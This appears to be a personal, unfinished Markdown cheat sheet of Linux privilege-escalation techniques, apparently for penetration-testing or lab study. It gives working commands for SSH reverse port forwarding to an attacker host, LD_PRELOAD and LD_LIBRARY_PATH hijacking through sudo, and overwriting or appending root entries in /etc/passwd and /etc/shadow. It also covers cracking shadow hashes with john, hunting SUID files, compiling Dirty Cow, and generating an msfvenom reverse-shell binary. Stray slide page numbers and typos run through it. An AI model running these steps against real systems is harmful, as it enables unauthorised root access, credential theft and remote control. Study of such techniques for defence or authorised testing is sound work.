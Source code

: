# Work in Progress

## automated scripts

linux smart enumeration: https://github.com/diego-treitos/linux-smart-enumeration
```
# print everything the script can gather and do not prompt for a password
./lse.sh -l 2 -i
```

Linenum - https://github.com/rebootuser/LinEnum
```
# export files to a directory and do thorough tests
./linenum.sh -t -e linenum
```

linpeas
linux exploit suggester

linux priv checker - https://github.com/linted/linuxprivchecker

beroot - https://github.com/AlessandroZ/BeRoot

unix -priv-checker - http://pentestmonkey.net/tools/audit/unix-privesc-check

## Survey

Kernel Version
```
uname -a

```

list programs you can run as 
```
sudo -l
sudo -s 
sudo -i
```
#### Networking 

Port Forwarding to your attacker station:
```
ssh -R <ATTACKER_PORT>:127.0.0.1:<SERVICE_PORT> <USERNAME>@<ATTACKER_IP>
```
### Cronjobs

List cron table files (cron tabs)
```
# user
/var/spool/cron
/var/spool/cron/crontabs/

# system-wide cron jobs 
/etc/crontab 
```
## Techniques 

## path injectoin
if can write to a location in PATH variable

### shell escape sequences 

escaping a progrma n to spwan a shell if the program is run a root 

list of programs with shell escape sequences: https://gtfobins.github.io/

### Enviorment Variables 

LD_PRELOAD is an environment variable which can be set to
the path of a shared object (.so) file.
When set, the shared object will be loaded before any others.
By creating a custom shared object and creating an init()
function, we can execute code as soon as the object is loaded.
86

Compile preload.c to preload.so:
4. Run any allowed program using sudo, while setting the
LD_PRELOAD environment variable to the full path of the
preload.so file:
90
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
$ sudo LD_PRELOAD=/tmp/preload.so apache2

The LD_LIBRARY_PATH environment variable contains a set of directories where
shared libraries are searched for first.
The ldd command can be used to print the shared libraries used by a program:
By creating a shared library with the same name as one used by a program, and
setting LD_LIBRARY_PATH to its parent directory, the program will load our
shared library instead.

Compile library_path.c into libcrypt.so.1:
4. Run apache2 using sudo, while setting the
LD_LIBRARY_PATH environment variable to the current
path (where we compiled library_path.c):
94
$ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
$ sudo LD_LIBRARY_PATH=. apache2

### Kernel Exploits 


Kernel Version
```
uname -a

```
Use the kernel version to find exploits
```
searchsploit linux kernel <VERSION_NUMBER> priv esc
```

Best to use linux-exploit-suggester-2 to get a more refined list:
```
perl linux-exploit-suggester-2.pl -k <VERSION_NUMBER>
```

#### Common exploit 

Dirty Cow complie:
```
gcc -pthread cow.c -o cow
```

### Service Exploits 

Services are programs that run in the background.  Exploiting a service running as root provides command execution as root 

show all processes running as root
```
ps aux | grep "^root"
```
 Obtain the version of the identified programs:
 ```
 <PROGRAM> --version
 <PROGRAM> -v
 
 # debian
 dpkg -l | grep <PROGRAM>
 
 # rpm systems
 rpm -ga | grep <PROGRAM>
 ```

Use searchsploit to find exploits for these programs.

### Shared Object Injection 

When a prgram is execited, it will try to load the shared objects it requires,  using `strace` we can track the system callls and determine whether any share objects were not found.  If we can write to the location the program tries to open, we can create a shared object to spawn a root shell.

### weak file permissions 

World Readable - means it can read by anyone 
world writeable - anyone can write to the file 

if etc/shadow is readable we can add a user to it

make the massword with the correct hash:
```
mkpasswd -m sha-512 <PASSWORD>
```
now replace the root users password hash with the one that you made.  now you can su to root!

if etc/passwd is readable we can add a user to it

The /etc/passwd historically contained user password hashes.
For backwards compatibility, if the second field of a user row in /etc/passwd
contains a password hash, it takes precedent over the hash in /etc/shadow.
If we can write to /etc/passwd, we can easily enter a known password hash for
the root user, and then use the su command to switch to the root user.

generate a password hash to be placed in the etc/passwd:
```
openssl passwd "password"
```
now add the password hash to the second filed in the etc/passwd file in place if the X for the root user


Alternatively, if we can only append to the file, we can create a new user but
assign them the root user ID (0). This works because Linux allows multiple entries
for the same user ID, as long as the usernames are different.

```
echo "<USERNAME>:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```


the x in the secod row means to look in the /etc/shadow file
- can delete the x which linux may interpret as there being no password


### Cracking passwords 

if the /etc/shadow file is readable 


root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
- password hash has his between the first and second colon (only copy that to a txt file for cracking)
- $6$ = SHA512
- 

Crack the hash using john
```
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


### SUIG/SGID

SUID files get executed with the privileges of the file owner.
SGID files get executed with the privileges of the file group.
If the file is owned by root, it gets executed with root
privileges,

Locate all files with SUID or SGID:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
can use shell esacpe on files suid/sgid set 



## Reverse Shells 
```
msfvenom -p linux/x86/reverse_shell_tcp lhost= lport= -f elf -o rev_shell.elf
```

Native reverse shells:

reverse shell generator: https://github.com/mthbernardes/rsg 



